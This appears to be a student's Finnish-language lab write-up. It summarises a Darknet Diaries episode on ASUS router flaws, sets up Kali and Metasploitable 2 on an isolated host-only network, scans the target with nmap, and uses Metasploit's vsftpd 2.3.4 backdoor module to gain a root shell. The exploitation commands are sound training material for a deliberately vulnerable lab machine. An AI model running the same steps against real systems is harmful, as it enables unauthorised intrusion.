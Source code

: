 # h1 OmaLabra 

## x)

[Darknet Diaries EP5:ASUSGATE](https://darknetdiaries.com/episode/5/)

- asus reitittimessä todella vakavia turvallisuusongelmia

- helpot default salasanat
- Ftp serverillä oli portti 21 auki joten kuka vaan oikealla ip osoitteella pääsisi sitä kautta käsiksi
- Samba, mahdollisti tiedostoihin käsiksi pääsemisen helposti kenelle vaan.
- vpn mahdollisti sen että muiden ongelmien avulla pääsee käsiksi koko talon verkkoon

- sata tuhatta samanlaista reititintä helposti löydettävissä, ongelma ei julkisessa tiedossa

- asus vastahakoinen selvittämään ongelmia kun informoitu yksityisesti

- kun ongelmia ei korjattu aluksi Kyle kertoi julkisesti osan haavoittuvuudesta, ja myöhemmin kokonaan

- nykyään helpompi ilmoittaa haavoittuvuuksista ja viranomaiset auttavat tilanteessa jos muuten ei muutosta tapahdu

- asus korjasi kaikki ongelmat lopulta, mutta tuomittiin silti rikkoneeksi lakia koska ei korjannut ja ilmoittanut ongelmista.
- asus on vuoteen 2036 asti saadut määräykset josta jokaisesta rikkeestä 16000$ sakko

"They must clearly notify their customers publically when a security update is available.  They must conduct security audits on their products.  This includes penetration testing, employee training, code reviews, risk assessments, and more."


2.4 7:15 

Virtualbox Host:
	OS: Debian GNU/Linux 11 (bullseye) x86_64 
	Host: Aspire A515-55G V1.08 

## a, b ja c
a) Asenna Kali virtuaalikoneeseen
b) Asenna Metasploitable 2 virtuaalikoneeseen
c) Tee koneille virtuaaliverkko, jossa  
    - Kali saa yhteyden Internettiin, mutta sen voi laittaa pois päältä
    - Kalin ja Metasploitablen välillä on host-only network, niin että porttiskannatessa ym. koneet on eristetty intenetistä, mutta ne saavat yhteyden toisiinsa

latasin [metasploitable](https://sourceforge.net/projects/metasploitable/) 2 ja [kali](https://www.kali.org/get-kali/#kali-installer-images) linuxin 

Virtualboxissa uusi virtuaalikone- nimi kali levykuvaksi juuri ladattu kali 2023.1 

![](TTPictures/T1a.png)

laitoin kalin asentumaan taustalle ja jatkoin metasploitablen asennusta.

metasploitable2

new

Type: Linux
Version: Other Linux(64-bit)

Hard disk - Use an existing virtual ahrd disk file

![](TTPictures/T1b.png)

file - tools - host only network manager
tein uuden host only network, laitoin sen metasploitable nat adapterin sijaan ja kaliin lisäsin toiseksi mahdollisuudeksi joten sillä pääsee tarvittaessa internettiin.

käynnistin metasploitablen, kirjauduin sisään msfadmin käyttäjälle ja ping komentoa käyttämällä tarkistin, että kone ei ollut netissä.
sen jälkeen ifconfig komennolla tarkistin laitteen ip osoitteen.

![](TTPictures/T1d.png)

kun kali oli asentunut tein siitä virtualboxissa snapshotin joten toivottavasti voin välttää uudelleenasennuksen ongelmatilanteissa.

tarkistin kalissa network adapterien toimivuuden ping komennolla.    
host only networkissa komento `ping google.com` antaa:
	ping: google.com: Temporary failure in name resolution
	
ja nat:
	64 bytes from hem09s02-in-f14.1e100.net (216.58.209.174): icmp_seq=7 ttl=63 time=5.94 ms

pingasin metasploitable ip osoitetta kalista jolla sain varmistuksen että host only network toimii niin kuin pitää.

	ping 192.168.56.102
	PING 192.168.56.102 (192.168.56.102) 56(84) bytes of data.

	sudo msfdb run
	db_status

aloitin tutkimalla maalikoneen aukinaisia portteja, skannasin ne komennolla db_nmap -A 192.168.56.102

	services
	
	host            port  proto  name         state  info
	----            ----  -----  ----         -----  ----
	192.168.56.102  21    tcp    ftp          open   vsftpd 2.3.4
	192.168.56.102  22    tcp    ssh          open   OpenSSH 4.7p1 Debian 8ubuntu1 protocol 2.0
	192.168.56.102  23    tcp    telnet       open   Linux telnetd
	192.168.56.102  25    tcp    smtp         open   Postfix smtpd
	192.168.56.102  53    tcp    domain       open   ISC BIND 9.4.2
	192.168.56.102  80    tcp    http         open   Apache httpd 2.2.8 (Ubuntu) DAV/2
	192.168.56.102  111   tcp    rpcbind      open   2 RPC #100000
	192.168.56.102  139   tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
	192.168.56.102  445   tcp    netbios-ssn  open   Samba smbd 3.0.20-Debian workgroup: WORKGROUP
	192.168.56.102  512   tcp    exec         open   netkit-rsh rexecd
	192.168.56.102  513   tcp    login        open   OpenBSD or Solaris rlogind
	192.168.56.102  514   tcp    shell        open   Netkit rshd
	192.168.56.102  1099  tcp    java-rmi     open   GNU Classpath grmiregistry
	192.168.56.102  1524  tcp    bindshell    open   Metasploitable root shell
	192.168.56.102  2049  tcp    nfs          open   2-4 RPC #100003
	192.168.56.102  2121  tcp    ftp          open   ProFTPD 1.3.1
	192.168.56.102  3306  tcp    mysql        open   MySQL 5.0.51a-3ubuntu5
	192.168.56.102  5432  tcp    postgresql   open   PostgreSQL DB 8.3.0 - 8.3.7
	192.168.56.102  5900  tcp    vnc          open   VNC protocol 3.3
	192.168.56.102  6000  tcp    x11          open   access denied
	192.168.56.102  6667  tcp    irc          open   UnrealIRCd
	192.168.56.102  8009  tcp    ajp13        open   Apache Jserv Protocol v1.3
	192.168.56.102  8180  tcp    http         open   Apache Tomcat/Coyote JSP engine 1.1
	
tiesin että vsftpd 2.3.4 sisältää backdoor exploitin koska kävimme sen läpi tunnilla, etsin siitä tiedot komennolla `search vsftpd 2.3.4`

![](TTPictures/T1f2.png)  

valitsin exploitin käytettäväksi komennolla `use 0`

tutkin exploittia komennolla `info`

![](TTPictures/T1f3.png)
	
asetin RHOST muuttujan global arvon maalikoneen ip osoitteeksi komennolla `setg RHOSTS 192.168.56.102`  

ajoin exploitin komennolla `run`

![](TTPictures/T1f4.png)

sain maalikoneeseen terminaalin auki root oikeuksilla.
